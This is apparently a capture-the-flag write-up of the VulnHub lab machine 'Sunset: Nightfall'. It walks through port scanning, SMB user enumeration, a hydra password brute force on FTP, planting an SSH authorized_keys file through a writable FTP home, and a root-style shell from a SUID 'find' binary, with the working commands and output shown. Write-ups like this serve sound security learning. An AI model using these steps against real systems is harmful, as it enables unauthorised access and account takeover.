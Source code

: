 # Sunset: Nightfall

https://www.vulnhub.com/entry/sunset-nightfall,355/

## Initial Reconnaissance

After using `netdiscover` to find the machine, a `nmap -T4 -A -p-` returned:

```
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         pyftpdlib 1.5.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 192.168.1.106:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10 (protocol 2.0)
| ssh-hostkey: 
|   2048 a9:25:e1:4f:41:c6:0f:be:31:21:7b:27:e3:af:49:a9 (RSA)
|   256 38:15:c9:72:9b:e0:24:68:7b:24:4b:ae:40:46:43:16 (ECDSA)
|_  256 9b:50:3b:2c:48:93:e1:a6:9d:b4:99:ec:60:fb:b6:46 (ED25519)
80/tcp   open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
3306/tcp open  mysql       MySQL 5.5.5-10.3.15-MariaDB-1
```

nikto and dirb on the website returned nothing. the ftp server did not permit anonymous access, the smb shares had no directories set, ssh with nightfall as a user did not have an empty password (which was extremely unlikely). The mysql database was also secured.

I went through all the versions I could see, checking for vulns, and found nothing. Pretty stuck at this point, this being a wall harder than any I had faced so far.

## Getting a hint

I browsed for a hint, and found people discovering users using nmapAutomator and specifically enum4linux over the smb endpoint. I had actually seen that when I ran automator myself, that it came up with two users: nightfall, and matt:

`enum4linux -a 192.168.1.106`:

```
... snipped ...
 ======================================================================== 
|    Users on 192.168.1.106 via RID cycling (RIDS: 500-550,1000-1050)    |
 ======================================================================== 
[I] Found new SID: S-1-22-1
[I] Found new SID: S-1-5-21-1679783218-3562266554-4049818721
[I] Found new SID: S-1-5-32
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\nightfall (Local User)
S-1-22-1-1001 Unix User\matt (Local User)
... snipped ...
```

So far, I haven't had to brute force any remote users, though I have obviously used rockyou in offline attacks. So, with the above accounts, I need to do a remote brute force against either the ftp or ssh accounts (I assume).

## Bruteforce and FTP

I used hydra and rockyou against the ftp with nightfall, but it didn't get anywhere. Doing the same with matt however finished almost immediately:

`hydra -l matt -P rockyou.txt ftp://192.168.1.106`:

```
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-03-15 18:27:02
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://192.168.1.106:21/
[21][ftp] host: 192.168.1.106   login: matt   password: cheese
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-03-15 18:27:38
```

I logged into FTP via the above credentials, and it appeared to be matt's home folder. There was nothing of interest in it, but I soon discovered I had the ability to write to it.

## SSH keys

Uploading keys that would allow me to SSH in seemed to be the next step (one of my coworkers pointed this out the moment he saw the ftp directory), however in order for it to work I would need to be able to set the ownership to the user, and change the permissions.

chmod was available, but nothing to chown. However, rename was available, which is effectively a poorman's move. And I discovered that if I ftp put into a file already owned by matt, it would stay owned by matt. Accordingly I:

1. Created a ssh key via `ssh-keygen` on my kali machine, sticking it inside my .ssh folder.
2. Found a useless file on the ftp server (.sh_history was empty), and put the id_rsa.pub file into it
3. Found a useless folder on the ftp server (.local contained nothing of note), and renamed it to .ssh
4. Used another rename to 'move' the .sh_history file into the new .ssh folder as 'authorized_keys'
5. Finally, used chown to set the folder to be 700 and the keys file to be 644

I found after doing this I could disconnect from ftp, and ssh right in as matt.

## Find and switching users

Browsing around (and with my coworker hovering over me), I looked for next steps. `sudo -l` failed - the user didn't have rights to do this, at least not without a password. My coworker pointed out a /scripts directory, where we found 'find', all by itself, with the suid bit set. It was owned by the other user on the machine, nightfall.

I eventually found a combination command that used find to get a shell as nightfall: after creating a file named test.txt (though any single file would likely do), this command worked: `/scripts/find test.txt -exec /bin/bash -p \;`

In this shell as nightfall, just to make my life easier, I made a .ssh dir and copied in the keys file again, allowing me to exit from the find shell and matt's ssh, and ssh in as nightfall.
